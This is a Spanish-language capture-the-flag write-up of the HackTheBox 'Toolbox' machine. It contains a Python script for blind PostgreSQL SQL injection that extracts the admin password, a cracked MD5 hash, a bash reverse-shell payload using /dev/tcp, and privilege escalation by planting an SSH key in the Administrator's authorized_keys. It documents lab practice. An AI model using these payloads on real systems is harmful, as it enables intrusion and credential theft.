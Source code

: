 ```yaml
---
title: HackTheBox - Toolbox
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'Default Credentials', 'SQL Injection', 'Docker Toolbox']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Toolbox/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Toolbox Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackTheBox.

Técnicas usadas: **Default Credentials, SQL Injection, Docker Toolbox**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina Toolbox**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

  ![](/assets/images/HTB/Easy/Toolbox/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

  ![](/assets/images/HTB/Easy/Toolbox/02-versions.png)

  * Conseguimos un dominio **admin.megalogistic.com** el cual añadiremos al archivo **/etc/hosts**.
  * Vemos un fichero **docker-toolbox.exe** en el servicio FTP.

c. Visitamos el dominio **https://admin.megalogistic.com**

![](/assets/images/HTB/Easy/Toolbox/03-web.png)

* Aquí intentaremos una **inyección sql** y al momento de ingresar una sentencia incorrecta veremos un mensaje el cual nos dirá que base de datos se usa

  ![](/assets/images/HTB/Easy/Toolbox/04-db.png)

* Inyecciones SQL en [PostgreSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

* Automatizamos la inyección sql basada en error con **python** para obtener la contraseña del usuario **admin**

  * Basándonos en la lógica del script y la inyección previamente obtenemos el nombre actual de la base de datos **test**, una tabla **users** y sus columnas **username,password**

    ```python
    import requests
    import string
    from pwn import *
    import sys
    import signal
    import urllib3

    def exit_handler(sig, frame) -> None:
      print("[!] Exit")
      sys.exit(1)

    def get_currentdb() -> None:
      global_string = string.ascii_letters + string.digits + string.punctuation + ' '
      main_url = "https://admin.megalogistic.com/"

      bar_1 = log.progress("Brute Force")
      bar_1.status("Starting Brute Force...")
      bar_2 = log.progress("admin password")
      headers = {"Cookie" : "PHPSESSID=[Cambiar]", "Content-Type": "application/x-www-form-urlencoded"}
      password = ""
      lenght = 0
      for index in range(1,50):
        for character in global_string:
          data = {"username":f"admin'||(select case when substring(password,{index},1)='{character}' then 1/(select 0) else NULL end from users limit 1)-- -", "password": "admin"}
          bar_1.status(data["username"])
          r = requests.post(main_url, headers=headers, data=data, verify=False)
          if('division by zero in' in r.text):
            lenght += 1
            password += character
            bar_2.status(str(lenght) + ': ' + password)
            break

    if __name__ == "__main__":
      urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
      signal.signal(signal.SIGINT, exit_handler)
      get_currentdb()
    ```


* Esta credencial está hasheada con **MD5**, la obtenemos en texto claro

  ```bash
  [>] Brute Force: admin'||(select case when substring(password,39,1)='C' then 1/(select 0) else NULL end from users limit 1)-- -
  [..../...] admin password: 42: 4a100a85cb5ca3616dcf137918550815
  
  dcode 4a100a85cb5ca3616dcf137918550815
  [+] Cracked MD5 Hash : iamzeadmin
  ```

d. Al autenticarnos estaremos en un **dashboard** en el que no vemos información relevante, con lo cual intentaremos ejecutar comandos con la inyección sql [RCE con PostreSQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce)

* Usaremos el payload

  ![](/assets/images/HTB/Easy/Toolbox/05-payload.png)

* Levantamos un servidor con **python** y enviaremos la petición con **BurpSuite**

  ![](/assets/images/HTB/Easy/Toolbox/06-burp.png)

  > A pesar de ver una error en la ejecución del comando, nos llega la petición con el **output del comando** en base64 a nuestro servidor de python.


* Nos entablaremos una reverse shell, para esto nos ponemos en escucha previamente con **nc** y enviaremos la siguiente petición con **BurpSuite**

  * El payload usado es: **`bash -c "bash -i >& /dev/tcp/<tun0 IP>/443 0>&1"`**

    ![](/assets/images/HTB/Easy/Toolbox/07-reverse.png)

    ```bash
    nc -lvnp 443
    postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$
    ```

e. Vemos que estamos en un contenedor

```bash
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
  inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255

postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ uname -a
Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU/Linux
```

* Con la información reunida consultamos sobre **Boot2Docker** y **Docker-ToolBox**. Encontramos una forma de [autenticarnos en ssh](https://stackoverflow.com/questions/30330442/how-to-ssh-into-docker-machine-virtualbox-instance)

  ```bash
  postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ssh docker@172.17.0.1
  docker@172.17.0.1's password: 
    ( '>')
    /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
  (/-_--_-\)           www.tinycorelinux.net

  docker@box:~$
  ```

### Escalada de Privilegios 💹

a. Exploramos este host

```bash
docker@box:/c/Users/Administrator$ ls -al                                      
total 1613
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 .
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 ..
drwxrwxrwx    1 docker   staff         4096 Aug 28 15:13 .VirtualBox
drwxrwxrwx    1 docker   staff            0 Feb 18  2020 .docker
drwxrwxrwx    1 docker   staff            0 Feb 19  2020 .ssh
```

* Encontramos un directorio **.ssh** en el que podemos meter nuestra clave pública **authorized_keys**

  ```bash
  docker@box:/c/Users/Administrator/.ssh$ ls                                     
  authorized_keys  id_rsa           id_rsa.pub       known_hosts
  ```

* Generemos un par de claves en nuestra **Máquina Atacante**

  ```bash
  ❯ ssh-keygen
  ❯ ls
  id_rsa   id_rsa.pub
  ```

* Copiamos la clave **id_rsa.pub** en el archivo **authorized_keys** del host docker

  ```bash
  docker@box:/c/Users/Administrator/.ssh$ echo -n 'id_rsa.pub' > authorized_keys
  ```

b. Ya con esto podemos acceder como **administrator** en el servicio SSH

```bash
root@kali~/.ssh> ssh administrator@10.10.10.236

Microsoft Windows [Version 10.0.17763.1039] 
administrator@TOOLBOX C:\Users\Administrator>
```